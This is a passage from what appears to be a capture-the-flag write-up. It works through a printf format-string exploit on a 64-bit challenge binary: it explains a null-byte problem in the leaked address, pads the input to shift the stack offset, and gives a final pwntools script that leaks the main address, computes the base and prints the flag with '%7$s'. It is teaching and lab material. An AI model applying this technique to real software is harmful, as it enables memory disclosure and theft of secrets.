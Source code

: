 
From earlier, when I was printing out the addresses on the stack, I got ```AAAABBBB {Contents on stack}```, however, in this output, I got only the ```AAAABBBB``` portion. It seems like the ```printf``` got "terminated" halfway after printing our input.

I went on to print the byte code of the ```FLAG``` memory address.

```FLAG``` memory address in bytes:
```b'` \xd0\x1ckU\x00\x00'```

I noticed that ```\x00\x00``` are being appended to the back of the address, and because the arch of this binary is ```amd64-64-little```, it is using little endian byte-ordering, hence, the ```\x00\x00``` is being appended to the back of the address, which actually just means writing the ```FLAG``` address, eg. ```0x00561caf7bf060``` , backwards. However, this poses as a problem for ```printf``` because ```printf``` stops printing when a NULL byte is reached, which explains, why our print "terminated" in the middle while printing the rest of our input.

I thought long and hard for a workaround, tried various modifications to my payload, and eventually discovered that I could simply pad my input with random 8 bytes, which sorts of "pushes" the ```FLAG``` memory address to the next stack location (i.e. 7) instead of 6 in my case. By doing so , I will be able to access and print the contents at the ```FLAG``` memory address that was push onto the stack location previously.

So now instead of passing ```%6$s``` as input, I pass ```%7$s``` as input, to print the flag.

Final Payload:
```python
# print out main addr
r.sendlineafter(">", b"5")
r.sendline("%21$lx")
r.recvuntil("a ")
ret = int(r.recvuntil("\n", drop = True).decode(), 16)
print("Main memory addr: ", hex(ret))

# calculating base address
elf.address = ret - elf.symbols.main
print("Base addr: ", hex(elf.address))

# first payload
payload = b'A' * 8
payload += p64(elf.symbols.FLAG)

print("FLAG addr: ", hex(elf.symbols.FLAG))

# send payload to store FLAG address at stack offset 7
r.sendlineafter(">", b"5")
r.sendline(payload)

# second round payload to print the flag
payload2 = b'%7$s'

# send payload to print the flag
r.sendlineafter(">", b"5")
r.sendline(payload2)

r.interactive()
```
